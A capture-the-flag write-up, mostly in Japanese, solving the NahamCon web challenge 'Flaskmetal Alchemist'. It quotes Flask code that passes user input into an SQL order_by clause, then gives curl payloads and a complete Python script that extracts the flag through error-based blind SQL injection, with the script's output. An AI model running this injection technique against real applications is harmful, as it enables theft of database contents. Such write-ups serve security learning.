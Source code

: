 # Flaskmetal Alchemist:Web:168pts
Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.  

**NOTE: this flag does not follow the usual MD5 hash style format, but instead is a short style with lower case `flag{letters_with_underscores}`**  
**Connect with:**  
- [http://challenge.nahamcon.com:30669](http://challenge.nahamcon.com:30669/)  

**Attachments:** [fma.zip](fma.zip)  

# Solution
URLが渡され、ソースも配布される。  
サイトは素材を検索できるようだ。  
明らかにSQLiが怪しい。  
ソースを見ると主要な部分は以下のようであった。  
```python
~~~
@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)
~~~
```
明らかにorder_byでSQLiがある。  
フラグはmodels.pyに以下のように設定されている。  
```python
~~~
class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```
DBはsqliteであることもソースよりわかる。  
order byでのTime-base SQLiを以下のように狙う。  
```bash
$ curl -X POST 'http://challenge.nahamcon.com:30669/' --data-raw "search=&order=(select flag from flag where substr(flag,1,1) = 'f' and 1 = randomblob(100000000)); -- satoki"
<!DOCTYPE html>
~~~
$ curl -X POST 'http://challenge.nahamcon.com:30669/' --data-raw "search=&order=(select flag from flag where substr(flag,1,1) = 'f' and 1 = randomblob(1000000000000000)); -- satoki"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
$ curl -X POST 'http://challenge.nahamcon.com:30669/' --data-raw "search=&order=(select flag from flag where substr(flag,1,1) = 'a' and 1 = randomblob(1000000000000000)); -- satoki"
<!DOCTYPE html>
~~~
```
`randomblob(1000000000000000)`に増やすとエラーが発生した。  
andなので、条件一つ目の評価がfalseだと二つ目は評価されない。  
これでError-base SQLiが可能となった。  
以下のesqli.pyで行う。  
```python
import sys
import requests

url = "http://challenge.nahamcon.com:30669/"
alphabet = "abcdefghijklmnopqrstuvwxyz0123456789{}_"
flag = ""

for i in range(len(flag), 40):
    for c in alphabet:
        payload = {"search": "", "order": f"(select flag from flag where substr(flag, {i+1}, 1) = '{c}' and 1 = randomblob(1000000000000000)); -- satoki"}
        res = requests.post(url, data=payload)
        if res.status_code != 200:
            flag += c
            print(flag)
            if c == "}":
                sys.exit()
            break
```
実行する。  
```bash
$ python esqli.py
f
fl
fla
flag
flag{
flag{o
flag{or
flag{ord
flag{orde
flag{order
flag{order_
flag{order_b
flag{order_by
flag{order_by_
flag{order_by_b
flag{order_by_bl
flag{order_by_bli
flag{order_by_blin
flag{order_by_blind
flag{order_by_blind}
```
flagが得られた。  

## flag{order_by_blind}